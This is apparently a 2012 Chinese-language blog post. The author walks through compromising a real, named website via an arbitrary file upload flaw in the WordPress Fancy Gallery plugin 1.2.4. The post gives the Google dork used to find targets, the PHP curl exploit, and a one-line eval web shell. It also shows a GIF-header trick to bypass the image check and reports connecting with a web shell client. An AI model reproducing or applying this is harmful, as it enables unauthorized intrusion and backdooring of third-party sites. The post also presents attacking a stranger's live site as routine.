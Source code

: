 title: "Wordpress Fancy Gallery Plugin 1.2.4 漏洞利用"
id: 83
date: 2012-07-02 00:49:58
tags: 
- wordpress漏洞
categories: 
- 原创作品
- 技术文章
---

睡觉前习惯性的上http://www.exploit-db.com/看看有没有什么新出的漏洞，

刚好看到一个Wordpress Fancy Gallery Plugin 1.2.4的上传漏洞

额，其实如果是注入漏洞的话我就不看了，上传漏洞一般就是直接能够上传自己的shell后门，这样比较省事。

先找一个有fancy gallery plugin的漏洞网站，google关键词：inurl:/wp-content/plugins/radykal-fancy-gallery/

随便点击一个进去看了看：http://progressivepulse.com 发现这个网站确实存在此插件并且有列目录漏洞

[![](http://www.creturn.com/asset/uploads/2012/07/pro1.png "pro1")](http://www.creturn.com/asset/uploads/2012/07/pro1.png)
<!--more-->
可以看到目录中的文件。

下载网站上面的exp  PHP的：http://www.exploit-db.com/exploits/19398/

代码：

```php

##################################################
# Description : Wordpress Plugins - Fancy Gallery Arbitrary File Upload Vulnerability
# Version : 1.2.4
# link : http://codecanyon.net/item/fancy-gallery-wordpress-plugin/400535
# Price : 18$
# Date : 22-06-2012
# Google Dork : inurl:/wp-content/plugins/radykal-fancy-gallery/
# Site : 1337day.com Inj3ct0r Exploit Database
# Author : Sammy FORGIT - sam at opensyscom dot fr - http://www.opensyscom.fr
##################################################

Exploit :

<?php

$uploadfile=&quot;lo.php&quot;;   //$uploadfile=&quot;lo.php.gif&quot;; 原来的名字

$ch =
curl_init(&quot;http://progressivepulse.com/wp-content/plugins/radykal-fancy-gallery/admin/image-upload.php&quot;);

curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, array('file[]'=&gt;&quot;@$uploadfile&quot;));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);

print &quot;$postResult&quot;;
?>

```

看下代码说明：

```php

curl_init("http://progressivepulse.com/wp-content/plugins/radykal-fancy-gallery/admin/image-upload.php");
```

这个是目标地址，把你找到的网址替换到就可以了

根据代码提示需要上传一个后门文件lo.php.gif

那好吧就上传一句话

```php
<?php @eval($_POST['cmd']);?>
```

运行exp : php exp.php

结果悲剧的发现提示非图片文件 file is not a image:

[![](http://www.creturn.com/asset/uploads/2012/07/pro2.png "pro2")](http://www.creturn.com/asset/uploads/2012/07/pro2.png)

好吧那就上图马吧，图马我向大家都知道我就不多说了。再次上传，提示成功，但是接下来心拔凉拔凉的，看到

提示说上传确实成功了但你上传上去的还是是gif格式的文件你让我情何以堪。本以为会自动重命名为php...

本站点又不是nigx更不存在那个解析漏洞~~  放弃？肯定不愿意么。那好吧，试试直接上传php文件，结果提示

也是上面的那个非图片文件。头部加入图片的头文件能跳过验证不，试试头部加入gif图片的头部信息：

[![](http://www.creturn.com/asset/uploads/2012/07/pro3.png "pro3")](http://www.creturn.com/asset/uploads/2012/07/pro3.png)

然后再次上传试试看看成功与否：

[![](http://www.creturn.com/asset/uploads/2012/07/pro4.png "pro4")](http://www.creturn.com/asset/uploads/2012/07/pro4.png)

看到图片上面提示成功，并且是php的文件。那么菜刀连接看看~~

[![](http://www.creturn.com/asset/uploads/2012/07/pro5.png "pro5")](http://www.creturn.com/asset/uploads/2012/07/pro5.png)

看到这里，不用我再说了吧。ok 后面的你们懂得。
